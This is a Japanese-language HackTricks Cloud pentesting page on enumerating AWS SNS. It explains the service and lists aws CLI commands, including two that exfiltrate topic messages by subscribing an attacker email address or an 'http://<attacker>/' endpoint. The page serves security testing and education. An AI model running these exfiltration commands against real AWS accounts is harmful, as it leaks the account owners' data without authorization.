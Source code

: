 # AWS - SNS Enum

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## SNS

Amazon Simple Notification Service（Amazon SNS）は、**アプリケーション間**（A2A）および**アプリケーション対人**（A2P）通信のための**完全に管理されたメッセージングサービス**です。

A2Aパブ/サブ機能は、分散システム、マイクロサービス、およびイベント駆動型のサーバーレスアプリケーション間の**高スループット、プッシュベース、多対多**メッセージングのための**トピック**を提供します。 Amazon SNSトピックを使用すると、パブリッシャーシステムはメッセージを**多数のサブスクライバーシステム**にファンアウトできます。

### **SQSとの違い**

**SQS**は、**キューベース**のサービスであり、メッセージが**単一のコンシューマ**によって処理されることを保証します。**少なくとも一度の配信**を提供し、標準キューとFIFOキューをサポートし、リトライと遅延処理のためのメッセージの保持を許可します。\
一方、**SNS**は、**パブリッシュ/サブスクライブベースのサービス**であり、メッセージを**複数のサブスクライバー**に同時にブロードキャストすることにより、**一対多**の通信を可能にします。メール、SMS、Lambda関数、HTTP/HTTPSなどの**さまざまなサブスクリプションエンドポイント**をサポートし、対象メッセージの配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは、分散システムのコンポーネント間の切り離しを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動型のファンアウト通信パターンに重点を置いています。

### **列挙**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
注意してください。**トピックがFIFOタイプの場合**、プロトコル**SQS**を使用するサブスクライバーのみが使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれている場合でも、**`--region`**で正しいリージョンを指定してください。そうしないと、アクセス権限がないというエラーが表示されますが、問題はリージョンです。
{% endhint %}

### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### 特権昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### 攻撃後の利用

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### 永続化

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksの最新バージョンを入手したい**、または**PEASSをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
